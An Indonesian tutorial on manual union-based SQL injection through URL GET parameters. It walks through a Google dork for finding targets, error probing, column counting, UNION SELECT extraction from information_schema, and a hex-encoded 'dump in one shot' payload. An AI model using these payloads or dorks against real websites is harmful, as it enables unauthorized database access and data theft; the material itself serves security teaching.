 # Union SQL Injection Manual Sederhana: Metode GET HTTP
R&D ICWR 2024-01-18
Disclaimer:

Disclaimer ini disengaja ditempatkan di bagian atas agar dibaca terlebih dahulu. Tujuan dari pembelajaran berikut adalah untuk keperluan pembelajaran dan peningkatan keamanan pada website saja. Tutorial ini tidak dimaksudkan untuk digunakan dalam aktivitas ilegal seperti dumping database. Jika ada pihak yang menggunakan tutorial ini untuk aktivitas ilegal, hal tersebut bukanlah tanggung jawab kami.

SQL injection merupakan teknik serangan keamanan yang memanfaatkan celah pada sistem pengolahan query SQL pada aplikasi web. Pada serangan ini, penyerang menginjeksikan perintah SQL berbahaya ke dalam input aplikasi. Jika aplikasi tidak melakukan validasi atau penyaringan input dengan benar, perintah SQL tersebut dapat dieksekusi oleh database. Salah satu bentuk umum serangan SQL injection terjadi melalui metode GET dalam protokol HTTP, di mana parameter URL dapat dimanipulasi untuk menyisipkan perintah SQL yang membahayakan integritas data atau memungkinkan akses yang tidak sah.

Sebagai contoh, URL yang rentan terhadap SQL injection pada metode GET adalah seperti: http://contoh.com/login.php?username=admin' OR '1'='1' -- &password=abc. Dalam contoh ini, penyerang mencoba menyisipkan perintah SQL yang selalu benar, sehingga mengakibatkan akses ke seluruh data dari tabel yang bersangkutan. Untuk menjaga keamanan aplikasi dari serangan SQL injection, sangat penting untuk memvalidasi dan membersihkan input, serta menggunakan teknik parameterized queries atau prepared statements dalam pengolahan query SQL. Pengujian keamanan secara berkala juga diperlukan untuk memastikan tingkat keamanan aplikasi tetap terjaga.

Pertama-tama, dalam melakukan penetrasi keamanan pada website, fokus utama adalah mencari target yang menggunakan parameter GET untuk menampilkan data. Pendekatan yang umum dilakukan adalah dengan memanfaatkan query Dork pada mesin pencari Google menggunakan sintaks inurl:"*.php?id=.

Contohnya pada kolom search Google sebagai berikut:

inurl:"*.php?id="

Setelah berhasil menemukan website target, seperti contoh http://contoh.com/get_name?id=1, langkah selanjutnya adalah melakukan eksploitasi untuk mengidentifikasi potensi kerentanannya terhadap serangan SQL Injection. Pendekatan ini dilakukan dengan memeriksa respons dari server terhadap manipulasi parameter GET.

Untuk menguji kerentanan, tambahkan karakter ' atau " pada bagian paling belakang URL, seperti:

http://contoh.com/get_name?id=1'

atau

http://contoh.com/get_name?id=1"

Jika website merespon dengan error seperti Warning: mysqli_num_rows() expects, kemungkinan besar website tersebut rentan terhadap serangan SQL Injection. Kesalahan ini menunjukkan bahwa input yang diberikan tidak diproses atau disaring dengan benar sebelum dieksekusi oleh database.

Setelah mengidentifikasi kerentanan, langkah selanjutnya adalah menentukan jenis database yang digunakan oleh website dan menyesuaikan teknik serangan. Ini dapat dilakukan dengan menambahkan karakter balancing pada URL, seperti:

    -- untuk MySQL Linux Style
    --+ untuk MySQL Windows Style
    # hash URL Encode while Use
    --+- SQL Comment
    ;%00 Null Byte
    Backtick

Contoh:

http://contoh.com/get_name?id=1' --+-

Langkah ini dilakukan untuk mengidentifikasi apakah teknik serangan SQL Injection yang digunakan sesuai dengan karakteristik server dan database yang dimiliki oleh website target.

Setelah mengidentifikasi website yang vulner, penyerang dapat menambahkan karakter balancing seperti -- (untuk MySQL Linux Style), --+ (untuk MySQL Windows Style), # ( untuk Hash URL Encode while Use), --+- (SQL Comment), ;%00 (Null Byte), atau Backtick untuk memperoleh respons yang diinginkan.

Langkah selanjutnya dalam proses eksploitasi melibatkan penyuntikan query dengan tujuan mengetahui jumlah kolom pada tabel database. Contohnya, penyerang dapat menggunakan pendekatan berurutan pada parameter GET, seperti:

    http://contoh.com/get_name?id=1' order by 1--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 2--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 3--+- -> Tidak ada error
    http://contoh.com/get_name?id=1' order by 4--+- -> Terjadi error, menandakan jumlah kolom pada tabel database adalah 3

Setelah mendapatkan informasi tentang jumlah kolom, penyerang dapat melanjutkan dengan mengidentifikasi letak kolom pada tabel database. Langkah ini dapat dilakukan dengan menggunakan query seperti:

    http://contoh.com/get_name?id=1' union select 1,2,3--+-

Website akan menampilkan angka 1, 2, dan 3 sesuai dengan posisi kolom dalam tabel database. Informasi ini nantinya digunakan untuk menyusun query akhir yang akan dieksekusi pada posisi yang diinginkan. Sebagai contoh, untuk menampilkan nama database, penyerang dapat menggunakan query seperti:

    http://contoh.com/get_name?id=-1' union select 1,database(),3--+-

Pada tahap selanjutnya eksploitasi SQL Injection setelah mendapatkan informasi ini, penyerang dapat melangkah lebih jauh dengan mengekstrak nama-nama tabel pada database target. Dengan menggunakan query berikut, penyerang dapat mengumpulkan nama-nama tabel tersebut:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+-

Selanjutnya, setelah berhasil mendapatkan daftar nama-nama tabel, penyerang melanjutkan dengan mengekstrak isi kolom pada tabel-tabel tersebut. Dalam tahapan ini, nama tabel diubah menjadi format heksadesimal yang diawali dengan 0x:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x6e616d615f746162656c --+-

Atau dengan menggunakan metode Dump in One Shot SQL Injection:

    http://contoh.com/get_name?id=-1' union select 1,concat(0x3c623e44756d7020696e204f6e652053686f743c2f623e3c62723e,version(),0x3c62723e,user(),0x3c62723e,database(),0x3c62723e,@c:=0x00,if((select count(*) from information_schema.columns where table_schema not like 0x696e666f726d6174696f6e5f736368656d61 and @c:=concat(@c,0x3c62723e,table_name,0x2e,column_name)),0x00,0x00),@c),3--+-'

Dengan mendapatkan nama-nama kolom dari tabel, langkah terakhir adalah menampilkan isi dari kolom-kolom tersebut. Contoh query untuk menampilkan isi kolom pada tabel yang memiliki 3 kolom seperti id, judul, dan detail adalah:

    http://contoh.com/get_name?id=-1' union select 1,group_concat(id,judul,detail),3 from nama_tabel --+-

Melalui serangkaian langkah kompleks ini, penyerang dapat berhasil mengeksploitasi dan memperoleh akses tidak sah ke dalam database suatu aplikasi. Penting untuk diingat bahwa praktek-praktek ini hanya dapat digunakan untuk pembelajaran dan pengujian keamanan dengan izin yang sah, dengan tujuan untuk meningkatkan keamanan aplikasi. Etika dan tanggung jawab dalam penggunaan teknik-teknik ini sangat ditekankan untuk mencegah penyalahgunaan.

Penulis: Afrizal F.A

Referensi:

    https://portswigger.net/web-security/sql-injection/union-attacks
    https://exploit.linuxsec.org/tutorial-sql-injection-manual/
    https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/
    https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html
